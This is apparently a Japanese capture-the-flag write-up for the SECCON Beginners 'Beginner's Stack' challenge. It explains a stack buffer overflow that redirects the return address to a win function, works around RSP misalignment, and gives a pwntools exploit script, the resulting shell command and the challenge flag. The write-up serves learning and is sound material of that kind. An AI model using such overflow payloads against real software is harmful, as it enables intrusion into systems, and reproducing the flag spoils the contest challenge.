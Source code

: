 # Beginner's Stack

プログラムを実行してみると、

* stack overflow で return address を win 関数 (0x400861) に書き換えれば flag
* return address は buf の 0x28 先に存在

ということがわかる。 stack も表示してくれてとても親切な問題。リトルエンディアンに注意して `b"A" * 40 + b"\x61\x08\x40\x00\x00\x00\x00\x00"` を送りつければよい。

…と思いきや

```
Oops! RSP is misaligned!
Some functions such as `system` use `movaps` instructions in libc-2.27 and later.
This instruction fails when RSP is not a multiple of 0x10.
Find a way to align RSP! You're almost there!
```

と返ってきた。そういえばそう。

関数最初の push によって `$rsp` の値が -8 されて 0x10 の倍数でなくなってしまうため、  `\x62\x08\x40\x00\x00\x00\x00\x00` に飛ぶ必要があった。

```python
from pwn import *

s = remote("bs.quals.beginners.seccon.jp", 9001)
s.sendlineafter(
    "Input: ",
    b"A" * 40 + b"\x62\x08\x40\x00\x00\x00\x00\x00",
)
s.interactive()
```

すると、Congratulations! と表示されたまま何もおきない。おかしいなと思って radare2 で `win` 関数が何をするかを見てみると、 `/bin/sh` を実行していた。上記スクリプトで気づかずに shell に入っていたので、 `cat flag.txt` で flag が見れた。

`ctf4b{u_r_st4ck_pwn_b3g1nn3r_tada}`